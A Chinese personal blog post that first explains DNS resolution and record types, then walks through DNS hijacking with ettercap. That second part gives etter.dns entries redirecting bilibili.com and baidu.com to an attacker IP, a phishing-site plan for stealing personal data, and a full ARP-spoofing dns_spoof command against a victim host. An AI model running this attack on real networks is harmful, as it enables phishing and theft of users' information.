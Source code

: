 ```yaml
---
layout: post
title: "网络安全（一）主动进攻之DNS基础和ettercap实现DNS流量劫持"
date: "2022-10-09T15:24:15.314Z"
---
```

网络安全（一）主动进攻之DNS基础和ettercap实现DNS流量劫持
===================================

alittlemc，个人原创，个人理解和观点。若有错误、不理解请与我联系，谢谢！

*   介绍了DNS的解析过程。
*   DNS劫持的思路和实践。

DNS
===

域名
--

以为live.bilibili.com为例子，从后到前依次为顶级（一级）域名com、二级域名bilibili，三级域名live。www是特殊的标示代表主机，有一些域名再长点，就继续四级域名、五级域名加下去。

*   其实在顶级域名后还有一个根域写作**.（英文句号）**，**www.bilibili.com.**
*   顶级域名一般代表具有一定性质的网站，com商业、cn中国、gov政府机构等等
*   二级域名代表具体的网页名称所以主体
*   三级域名就是更细的划分，比如**teiba**.baidu.com
*   www是个特殊代表主机

DNS概述
-----

**DNS**（Domain Name System，域名系统），DNS简单来说就是**已知域名求IP**的服务。在TCP/IP协议下的网络中，设备之间通信都是用网络层的IP作目标标识的，但是访问网页我们往往通过域名来访问，比如bilibili对应的IP解析为119.3.70.188，https://bilibili.com比如https://119.3.70.188都可以打开bilibili站点，但是IP地址不是每个人都能很好的记忆的，更何况将来如果IPv6广泛应用了（如图1所示），所以是DNS一项很重要的技术。

![](https://img2022.cnblogs.com/blog/2928139/202210/2928139-20221008200222990-1520299257.png)

**图1**.www.bilibili.com解析出的IPv6地址

DNS服务在提供域名解析额同时，还为服务器提供负载均衡，IP优化域名优化的效果。

*   DNS一条域名可以解析出多条IP结果，这些IP对应提供相同的服务但是位置不同的服务器，将不同的IP返回给用户，不至于让某台服务器压力太大。
*   有一些高级的DNS服务器会客户的运营商提供较优的IP，比如在广西访问广东的IP往往比访问北京的来得更快些。

![](https://img2022.cnblogs.com/blog/2928139/202210/2928139-20221008210432576-19178791.png)

  **图2**.bilibili.com全部解析结果

DNS解析过程
-------

DNS一开始本机会“**先求人不如求己**”，先查询本机DNS存放在内存中缓存（这缓存几个小时后清除），本机hosts文件。实在是没有才会向本机设置的DNS Server发起请求，本机的DNS Server为阿里的223.5.5.5。

DNS使用UDP:53端口（当然也可以使用TCP:53，在较大请求和返回数据的情况下使用，因为UDP报文最大576字节且后续报文不分片直接丢弃。所以减去UDP报头，DNS报文数据限制在512字节内）。UDP的报文很干净，一来一回也不需要握手。

*   在终端输入NSLOOKUP查询一下www.bilibili.com，并且抓包：

![](https://img2022.cnblogs.com/blog/2928139/202210/2928139-20221008210936008-1059768507.png)

 **图3**.本机192.168.4.1与DNS Server 223.5.5.5的请求过程

DNS Server接受到任务后会查询DNS数据库的，当然“人非圣贤孰能无过”，DNS Server也会查询不到IP，会再向上游DNS Server发起请求：

*   递归查询：不知道就问上一级（PC请求Server1时候也属于递归查询）
*   迭代查询：不知道认识的都问一遍

![](https://img2022.cnblogs.com/blog/2928139/202210/2928139-20221008215532741-476720014.png)

 **图4**.本机192.168.4.1与DNS Server 223.5.5.5的请求过程

 DNS查询记录
--------

DNS有不同的记录：

*   A 记录
    *   域名解析IPv4地址
*   AAAA 记录
    *   和A 记录类似，域名解析IPv6 地址
*   PTR记录
    *   IP解析域名，即反向解析，比如nslookup输入server 223.5.5.5反向解析出了public1.alidns.com

![](https://img2022.cnblogs.com/blog/2928139/202210/2928139-20221009211416539-2015593226.png)

**图5**.反向解析

*   CNAME 记录
    *   CNAME 记录另一个别名域，

![](https://img2022.cnblogs.com/blog/2928139/202210/2928139-20221009204338882-250460677.png)

**图6**.a.w.bilibili.com和www.bilibili.com相同

*   其他的记录还有:SOA 记录还有、MX记录、NS记录、TXT记录、SRV记录、APL记录、CAA记录、DNAME记录 等等。太多啦，不在本次的讨论范围啦。
    

基于ettercap实现DNS劫持
=================

完成思路
----

温馨提示：DNS劫持是违法的，请不要以身试法（一般情况我们称黑客 为小黑子香精捞饭）

1.  搭建假的DNS Server提供可以自定义DNS解析条件，基于ettrcap使用自带的**/etc/ettercap/etter.dns**。
2.  搭建假的钓鱼网站，其IP由假的DNS服务器提供，当然也可以搭建某些中转的网站，比如某个编写了恶意脚本的站点，用户打开后GET 其URL，再执行脚本后跳转。（相比于近似发，taobao.com和ta0ba0.com，DNS可以让正确的域名对于错误的站点，更隐蔽）
3.  部署站点：
    *   ettercap的基于可arp来实现的，所以只在局域网中使用，用于。
    *   钓鱼网站站点可以搭建在局域网内也可以搭建在公网中，具体内容和作用嘛，其实应该有看见过，用于盗取一些个人信息；配置使用nginx、apache作为中间价，PHP之类作为解析（或者静态的html，post到动态PHP界面）
4.  使用ettercap发起攻击

ettercap的使用
-----------

ettercap是基于ARP 地址欺骗来实现中间人攻击的工具。

可恶我的kali截图丢了，后面我会补上。

一般情况下完整版的Kali是自带甚至有图形界面，

*   github：https://github.com/Ettercap/ettercap
*   官网：[Downloads « Ettercap (ettercap-project.org)](https://www.ettercap-project.org/downloads.html)

### 编辑（假DNS请求）**/etc/ettercap/etter.dns**

\# 域名    A    钓鱼网站IP
# 比如
# 正向A

www.bilibili.com    A    10.100.10.4
www.baidu.com    　A    10.100.10.4

# 反向PRT
www.bilibili.com    PRT    10.100.10.4
www.baidu.com    PRT    10.100.10.4

### 发起攻击过程

\# 查看网关 网卡等
root @ localhost in ~ \[21:54:10\] C:1$ **sudo route -****n**
Kernel IP routing table
Destination Gateway Genmask Flags Metric Ref Use Iface
**10.100.10.1** 0.0.0.0 255.255.255.192 U 0 0 0 **wlan0**

\---

**ettercap -i wlan0 -Tq -M arp:remote -P dns\_spoof /被攻击者ip// /被攻击者网关//**
\-i <网卡>：指定网卡
\-T：只显示文本
\-q：安静模式，不显示抓到的数据包内容
\-M <攻击方式>：执行中间人攻击，这里的arp:remote为arp欺骗
\-P <插件名>：使用的插件，这里使用dns\_spoof即可dns欺骗插件

**ettercap -i wlan0 -Tq -M arp:remote -P dns\_spoof /10.100.10.120// /10.100.10.1//**

\--

今天先写这么多啦，好困啊，今天早点休息吧。